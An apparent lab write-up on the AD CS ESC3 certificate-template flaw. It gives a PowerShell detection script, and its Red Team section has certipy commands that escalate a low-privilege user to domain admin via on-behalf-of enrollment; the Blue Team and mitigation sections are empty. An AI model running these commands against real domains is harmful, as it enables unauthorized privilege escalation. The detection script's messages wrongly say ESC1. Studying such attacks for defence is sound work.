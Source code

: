 # Table of Contents

1. [ESC3 Vulnerability](#esc3-vulnerability)
2. [Misconfigurations](#misconfigurations) </br>
   2.1. [Misconfiguration Condition](#misconfigurations-condition)</br>
   2.2. [Manual Detection with Powershell and LDAP](#manual-detection-with-powershell-and-ldap)
5. [Red Team Activity](#red-team-activity)
6. [Blue Team Activity](#blue-team-activity)
7. [Mitigations and Best Practices](#mitigations-and-best-practices)

## ESC3 Vulnerability
Active Directory Certificate Services (AD CS) ESC3 is a specific vulnerability related to certificate enrollment in AD CS, which allows an attacker to escalate privileges by impersonating another user. ESC3 vulnerable template allow requester(attacker) to request certificate <b>on behalf of</b> other users.
## Misconfigurations
Unlike ESC1, the requester doesn't have to have the ability to specify subjectAltName (SAN) in the CSR. In other words, msPKI-Certificate-Name doesn't have to be set to flag "CT_FLAG_ENROLEE_SUPPLIES_SUBJECT".
### Misconfigurations Condition

```
IF 
(
    Manager approval is disabled                              // The msPKI-Enrollment-Flag must NOT have the 0x2 bit set

    AND 
    (
        Number of authorized signatures must be 0             // The msPKI-RA-Signature must be 0
        OR 
        msPKI-RA-Signature attribute is NOT present           // The msPKI-RA-Signature attribute must NOT be set (i.e., it doesn't exist)
    )

    AND 
    (
        The template has Certificate Request Agent EKU        // pkiextendedkeyusage = 1.3.6.1.4.1.311.20.2.1
        OR
        The template has Any Purpose EKU                      // pkiextendedkeyusage = 2.5.29.37.0
        OR
        The template has no EKU
    )

    AND
    (
        Authenticated Users can enroll    // IdentityReference is Authenticated Users, ActiveDirectoryRights is ExtendedRight
        OR
        Domain Users can enroll           // IdentityReference is Domain Users, ActiveDirectoryRights is ExtendedRight
        OR
        Everyone can enroll               // IdentityReference is Everyone, ActiveDirectoryRights is ExtendedRight
    ) 
    
)

```

### Manual Detection with Powershell and LDAP

```powershell
$domain = "DC=hogwarts,DC=local"
$Filter1 = '(objectclass=pkicertificatetemplate)' #Ensure that object is certificate
$Filter2 = '(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))' #Ensure that manager approval is disabled

$Filter3_1 = '(msPKI-RA-Signature=0)' # Ensure that 0 signatures required for a cert enrollment.
$Filter3_2 = '(!(msPKI-RA-Signature=*))' #Ensure that this attribute not set (i.e. it does not exist.)
$Filter3 = "(|"+$Filter3_1+$Filter3_2+")"


$Filter4 = "(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.1)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))"
# "(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.1)"   # Certificate Request Agent EKU
# "(pkiextendedkeyusage = 2.5.29.37.0)"            # Any Purpose
# "(!(pkiextendedkeyusage=*))"                     # If pkiextendedkeyusage is not set. 

$Filter_LAST = "(&"+$Filter1+$Filter2+$Filter3+$Filter4+ ")"

$possible_certs = Get-ADObject -LDAPFilter $Filter_Last -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,$($domain)" -Properties nTSecurityDescriptor | Where-Object { $_.Name -notin @("CA", "SubCA", "OfflineRouter") }
$cert_count = ($possible_certs | Measure-Object).Count

if($cert_count -ne 0)
{
    
    foreach ($cert in $possible_certs) 
    {
        $acl = $cert.nTSecurityDescriptor
        foreach($access in $acl.Access)
        {
            if(($access.IdentityReference -like "*Authenticated Users*") -and ($access.ActiveDirectoryRights -like '*ExtendedRight*'))
                {
                    echo "$($cert.Name) Authenticated Users with ExtendedRight and it is vulnerable to ESC1."
                }
            elseif((($access.IdentityReference -like "*Domain Users*") -and ($access.ActiveDirectoryRights -like '*ExtendedRight*')))
                {
                    echo "$($cert.Name) Domain Users with ExtendedRight and it is vulnerable to ESC1.."
                }
            elseif((($access.IdentityReference -like "*Everyone*") -and ($access.ActiveDirectoryRights -like '*ExtendedRight*')))
                {
                    echo " $($cert.Name) Everyone with ExtendedRight and it is vulnerable to ESC1."
                }

        }
    }
}
else
{
    echo "There is no certificate which is vulnerable to ESC1."
}
```

## Red Team Activity
HOGWARTS\harry.potter is a user with lowest privilege. It is a just a member of Domain Users. <br>
HOGWARTS\severus.snape is a domain admin user. <br>
### Step1-Find vulnerable Certificates Based on the Vulnerable Certificate Template ESC3.
```console
# certipy-ad find -u 'harry.potter@hogwarts.local' -p "Gryffindor1." -dc-ip "192.168.0.111"  -enabled -vulnerable -debug
```
<b>-enabled</b>    : Ignore disabled templates. <br>
<b>-vulnerable</b> : Show certificate templates that are vulnerable to known attacks or misconfigurations. <br>
<b>-debug</b>      : Provide more detailed information about the command's execution process. <br>

<img src="https://github.com/user-attachments/assets/2c156fbd-97f0-4c4e-a03a-9b8a809af252">

### Step2-Request a Certificate for a Current User

```console
# certipy-ad req -u 'harry.potter@hogwarts.local' -p "Gryffindor1." -dc-ip 192.168.0.111 -ca 'hogwarts-CERT01-CA' -template 'ESC3_Template' -target CERT01.hogwarts.local
```
<b>-ca</b>         : Specify CA.<br>
<b>-template</b>   : Specify template name. <br>
<b>-target</b>     : DNS name of the CA. <br>

### Step3-Request a Certificate on Behalf of Domain Admin User

```console
# certipy-ad req -u 'harry.potter@hogwarts.local' -p "Gryffindor1." -dc-ip 192.168.0.111 -ca 'hogwarts-CERT01-CA' -template 'User' -target CERT01.hogwarts.local -pfx harry.potter.pfx -on-behalf-of 'HOGWARTS\severus.snape' -debug
```

<b>-on-behalf-of</b>        : Indicates on whose behalf the certificate is requested (Format: <b>HOGWARTS\severus.snape</b> or <b>severus.snape@hogwarts[.]local</b>)<br>


## Blue Team Activity

## Mitigations and Best Practices
